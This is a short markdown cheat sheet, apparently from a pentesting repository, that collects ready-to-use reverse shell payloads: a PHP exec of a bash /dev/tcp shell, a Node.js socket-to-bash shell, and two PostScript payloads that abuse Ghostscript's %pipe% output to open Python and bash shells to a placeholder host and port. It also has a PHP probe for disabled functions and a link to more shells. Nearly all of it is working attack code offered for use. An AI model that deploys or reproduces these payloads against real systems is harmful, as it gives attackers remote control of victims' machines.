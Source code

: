 # Reverse shells
## PHP Reverse Shell
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
```
- [PHP Reverse Shell](php_rev_shell.php)
- [Powny Reverse Shell](powny-shell.php)

## Javascript Reverse Shell
```js
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(<port>, '<ip>');
```

## Postscript Reverse Shell
```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1') currentdevice putdeviceprops
```

## PHP RCE
```php
<?php var_dump(explode('.'.ini_get('disable_functions')));?>
```
   
## This is where you can get more reverse shell
***https://gtfobins.github.io***
